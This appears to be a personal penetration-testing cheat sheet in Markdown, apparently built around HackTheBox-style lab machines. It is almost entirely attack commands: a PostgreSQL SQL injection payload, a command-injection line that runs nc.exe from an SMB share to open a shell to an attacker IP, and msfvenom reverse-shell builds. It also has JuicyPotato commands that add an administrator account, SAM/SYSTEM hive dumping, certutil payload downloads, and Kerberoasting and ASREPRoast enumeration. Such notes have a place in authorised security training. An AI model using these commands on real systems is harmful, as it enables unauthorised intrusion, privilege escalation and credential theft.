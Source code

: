 # Web Hacking

## SSL Certificates

```shell
# Inspect SSL certificates
openssl s_client -connect 10.10.10.250:443
````

## OWASP Top 10

## SQL Injection

### PostgreSQL Injection

```command
'; select pg_sleep(10);-- -
```

## Command Injection

### Ask Jeeves

```powershell
# Shared resource
println "\\\\10.10.10.10\\smbFolder\\nc.exe -e 10.10.10.10 443".execute().text
```
------------------------------------------------------------------------------------------------------
# Linux Section

## Enumeration

```shell
# System Enumeration
find / -name file 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
```
------------------------------------------------------------------------------------------------------
# Windows Section

## Active Directory Enumeration

### SMBClient

```shell
smbclient -L 10.10.10.250 -N
```

### SMBMap

```shell
# Unauthenticated
smbmap -H 10.10.10.250 -u 'null'

# Authenticated to a share 
smbmap -H 10.10.10.250 -u
```

### RPCClient

```powershell
# Unauthenticated (Null Session)
rpcclient -U "" 10.10.10.250

# Authenticated
rpcclient -U "username%password" 10.10.10.250
enumdomusers
enumdomgroups
querygroupmem <rid>
queryuser <rid>
```

# Kerberos

## Enumerating valid users

#### [kerbrute](https://github.com/ropnop/kerbrute)

Find **valid** domain controller users

```powershell
kerbrute userenum --dc 10.10.10.250 -d domain.local users.list
```

Combinating with [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)

Find **ASREPRoast** users. Requires with **UF_DONT_REQUIRE_PREAUTH** attribute.

```powershell
GetNPUsers.py domain.local/ --no-pass -usersfile valid_users.list
```

Find **Kerberoasting** users. Requires users with **ServicePrincipalName** attribute.

Combinating with [GetUsersSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

```powershell
GetUsersSPNs.py 'domain.local/jan:password'
```

# Windows Privilege Escalation Techniques

## Windows Internal Enumeration

```powershell
# System Enumeration
systeminfo
windows version registry key print

# Network Enumeration
netstat -nat

# User Enumeration
whoami /priv, whoami /all
net user <user>

# Services Enumeration
services
```

## Abusing groups

### Server Operators
Create/Modify Services

```powershell
# MSFVenom Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe

# Modiying binary
sc.exe config VMTools binpath="C:\Users\Janrdz\Desktop\shell.exe"
```
## Abusing Privileges

### SeImpersonatePrivilege
#### [JuicyPotato](https://github.com/k4sth4/Juicy-Potato)

```powershell
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user jan jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

### AlwaysInstallElevated

Create a payload.msi with MSFVenom (Reverse Shell)

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

### SeBackupPrivilege

Create a copy of SYSTEM and SAM dump with [secretsdump.py](https://github.com/fin3ss3g0d/secretsdump.py)

```powershell
PS C:\Temp> reg save HKLM\system system
PS C:\Temp> reg save HKLM\sam sam
```

------------------------------------------------------------------------------------------------------

# File Transfers

## Windows

```powershell
certutil.exe -f -urlcache -split http://10.10.10.10/winPease.exe winPease.exe
```

## Impackets

```command
impacket-smbserver smbFolder $(pwd) -smb2support
```

------------------------------------------------------------------------------------------------------

# Extra

## Alternate Data Streams (Windows)

ADS (Alternate Data Stream): is the ability to branch data into existing files without changing or altering its functionality, size or display to file browsing utilities.

```command
dir /r /s
more < ads.txt
more < ads.txt:file.txt
```

## Change access control lists on files and folders

```powershell
icacls file.txt
```
